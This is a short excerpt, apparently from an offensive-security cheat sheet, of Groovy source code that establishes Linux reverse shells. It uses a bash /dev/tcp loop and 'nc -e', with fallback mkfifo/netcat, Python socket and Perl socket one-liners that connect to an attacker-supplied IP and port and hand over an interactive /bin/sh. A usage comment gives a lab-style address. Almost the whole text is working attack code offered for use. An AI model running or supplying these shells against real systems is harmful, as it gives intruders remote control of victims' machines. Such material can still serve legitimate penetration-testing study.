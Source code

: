 ### Reverse Shell Establishment

#### Linux Reverse Shell Scripts
```groovy
// Method 1: Bash reverse shell via Groovy
def bashReverseShell(String attackerIP, int port) {
    try {
        println "[+] Establishing reverse shell to $attackerIP:$port"
        
        def cmd = ["/bin/bash", "-c", 
                  "exec 5<>/dev/tcp/$attackerIP/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done"]
        
        def proc = new ProcessBuilder(cmd).start()
        proc.waitFor()
        
    } catch (Exception e) {
        println "Reverse shell failed: ${e.getMessage()}"
    }
}

// Method 2: Netcat reverse shell
def netcatReverseShell(String attackerIP, int port) {
    try {
        println "[+] Attempting netcat reverse shell to $attackerIP:$port"
        
        def cmd = "nc -e /bin/bash $attackerIP $port"
        def proc = cmd.execute()
        proc.waitFor()
        
    } catch (Exception e) {
        println "Netcat reverse shell failed, trying alternative methods..."
        
        // Alternative netcat methods
        def altCommands = [
            "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $attackerIP $port >/tmp/f",
            "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$attackerIP\",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'",
            "perl -e 'use Socket;\$i=\"$attackerIP\";\$p=$port;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
        ]
        
        altCommands.each { altCmd ->
            try {
                println "[+] Trying: $altCmd"
                altCmd.execute()
                break
            } catch (Exception ex) {
                println "Failed: ${ex.getMessage()}"
            }
        }
    }
}

// Usage (replace with your IP and port):
// bashReverseShell("10.10.14.15", 4444)
// netcatReverseShell("10.10.14.15", 4444)
```
